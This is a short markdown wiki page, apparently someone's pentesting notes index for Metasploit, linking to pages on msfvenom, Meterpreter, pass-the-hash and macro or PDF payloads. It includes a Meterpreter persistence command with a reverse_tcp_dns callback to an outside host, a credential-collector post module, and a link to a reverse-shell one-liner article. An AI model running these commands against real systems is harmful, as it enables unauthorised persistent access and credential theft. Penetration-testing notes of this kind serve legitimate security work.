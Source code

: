 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)

[MSFConsole](/msfconsole)

[MSFDB](/msfdb)

[MSFRPC](/msfrpc)

[Programming](/metasploitprogramming)
# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
[PDF Payload](/pdfpayload)
[MSSql to Meterpreter](/mssqlmeterpreter)
[Web Delivery of powershell script](/meterpreterwebdelivery)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSF RPC Connections

# Site to pull from
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/